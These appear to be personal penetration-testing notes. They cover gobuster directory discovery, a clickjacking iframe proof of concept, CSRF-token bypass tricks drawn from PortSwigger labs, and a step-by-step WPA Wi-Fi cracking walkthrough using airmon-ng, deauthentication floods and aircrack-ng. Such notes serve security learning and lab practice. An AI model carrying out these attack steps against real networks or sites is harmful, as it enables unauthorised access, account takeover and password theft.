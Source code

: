# CIA
	Integrity : data only change by auth.
	Avalability : Avalable data when user need.
	Confidentility : Data access by auth.
  
# Containt Discover
	gobuster -u http://fakebank.com -w wordlist.txt dir 
	
# ClickJacking
https://numberless-holddown.000webhostapp.com/clickjacking.php?url={url with https or http}
	or
	<!DOCTYPE html>
	<html lang="en">
	<head>
	  <meta charset="UTF-8">
	</head>
	<body>
	  <iframe src="{url}" frameborder="0"></iframe>
	</body>
	</html>

# CSRF
## CSRF parameter is not available
---> generate CSRF POC and try

## CSRF parameter available 

-> Change action METHOD (GET OR POST)

-> Remove CSRF parameter
eg. email and CSRF
remove CSRF
now> email

-> enter own CSRF taken and send to victim (CSRF token one time use so, create fresh token everytime after use. For testing use inco mode. for more read paragraph.)



1)  Open Burp's browser and log in to your account. Submit the "Update email" form, and intercept the resulting request.
    Make a note of the value of the CSRF token, then drop the request.
2) Open a private/incognito browser window, log in to your other account, and send the update email request into Burp Repeater.
3) Observe that if you swap the CSRF token with the value from the other account, then the request is accepted.
4) Create and host a proof of concept exploit as described in the solution to the CSRF vulnerability with no defenses lab. Note that the CSRF tokens are single-use, so you'll need to include a fresh one.
    Store the exploit, then click "Deliver to victim" to solve the lab.


->if CSRF key cookies and CSRF token are available

https://portswigger.net/web-security/csrf/lab-token-tied-to-non-session-cookie 

->if header error occure
1) so try remove header
https://portswigger.net/web-security/csrf/lab-referer-validation-depends-on-header-being-present

2) if header remove not work try changing domain like
refrer: http://google.com
to
http://burpsuit/?google.com
https://portswigger.net/web-security/csrf/lab-referer-validation-broken



# Wifi Password Hacking
	

Step 1:

Put your wireles lan card on monitor mode

 airmon-ng start "wireless lan card name"
=> airmon-ng start wlan0

Step 2:

Capture Traffic with Airodump-ng

airodump-ng "wireless lan card monitor mode"

=> airodump-ng wlan0mon


Step 3:

Focus airodump-ng on one AP on One Channel

 airodump-ng --bssid dummy -c dummy --write WPAcrack wlan0mon

=> airodump-ng --bssid 8C:FD:18:88:79:68 -c 9 --write WPAcrack wlan0mon


Step 4:

in order to capture the encrypted password we need to have the client authenticate against AP.
we do deauth signal to client

 aireplay-ng --deauth 1000 -a bssid wlan0mon

=> aireplay-ng --deauth 1000 -a 8C:FD:18:88:79:68 wlan0mon


Step 5:

Now we have to crack the dump file with aircrack-ng

 aircrack-ng WPAcrack-01.cap -w (localtion of wordlist)
